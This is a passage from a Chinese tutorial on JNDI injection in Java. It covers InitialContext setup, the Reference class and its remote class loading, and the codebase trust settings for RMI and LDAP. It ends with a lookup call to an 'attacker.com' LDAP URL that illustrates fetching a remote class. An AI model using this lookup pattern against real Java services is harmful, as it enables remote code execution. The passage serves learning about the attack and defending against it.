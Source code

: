 其中InitialContext类作为JNDI命名服务的入口点，该类实现了Context接口。InitialContext构造函数需要为Hashtable或者其子类。初始化时要指定上下文环境，通常是JNDI工厂和JNDI的url和端口。比如这里是RMI服务，就指定RMI的工厂和url

该种初始化方式利用了哈希表，其实也可以直接设置value值：

```java
System.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        System.setProperty(Context.PROVIDER_URL, "rmi://www.0kai0.cn:8080");
InitialContext ctx = new InitialContext();
```

* JNDI提供的服务：

  Java Naming 命名服务。进行命名，也就是键值对的绑定

  Java Directory 目录服务。目录服务的对象可以有属性，在目录服务中可以根据属性检索对象

  ObjectFactory 对象工厂。将Naming Service（如RMI）中存储的数据转化为Java中可表达的数据。

  JNDI注入就是远程下载自定义的ObjectFactory类

在JNDI中提供了bind绑定和lookup检索对象。lookup通过名字进行检索

>RMI绑定的对象和JNDI绑定对象的区别
>
>1.纯RMI实现中是调用java.rmi包内的bind()或rebind()方法来直接绑定RMI注册表端口。JNDI设置时需要预先指定其上下文环境如指定为RMI服务，最后再调用javax.naming.InitialContext.bind()来将指定对象绑定到RMI注册表中
>
>2.纯RMI实现中是调用java.rmi包内的lookup()方法来检索。JNDI实现的RMI客户端查询是调用javax.naming.InitialContext.lookup()方法来检索



### Reference类

Reference类表示对存在于Naming/Directory之外的对象引用

对象可以通过Reference存储在Naming或者Directory服务下。有师傅可能会问，javax.naming.InitialContext.bind()不就是绑定对象了吗，但是RMI绑定的对象为本地远程对象（在本地项目文件内），Reference可以远程加载类(file/ftp/http等协议)，并且实例化

> java中的对象分本地对象和远程对象，本地对象默认可信任。远程对象根据安全管理器划分到不同的域，而拥有不同的权限
>
> 不过JNDI有两种安全控制方式，对JNDI SPI层，RMI\LDAP\CORBA的控制方式不同
>
> |       | 远程加载类权限                                            | 安全管理器强制实施 |
> | :---: | --------------------------------------------------------- | ------------------ |
> |  RMI  | java.rmi.server.userCodebaseOnly=false(JDK>7u21=true)     | Always             |
> | LDAP  | com.sun.jndi.ldap.object.trustURLCodebase=true(默认flase) | 非强制             |
> | CORBA |                                                           | always             |
>
> 

### JNDI协议动态转换

有的时候你指定了RMI服务，但是在使用的时候用到LDAP服务的绑定对象。可以直接指定协议，在lookup()、search()会访问LDAP服务的对象而非RMI（那设置工厂有什么意义？其实设置工厂是为了bind()对象到RMI服务，至于search、lookup这种工作不局限于RMI，所以就动态转换了。

```java
ctx.lookup("ldap://attacker.com:12345/ou=foo,dc=foobar,dc=com");
```
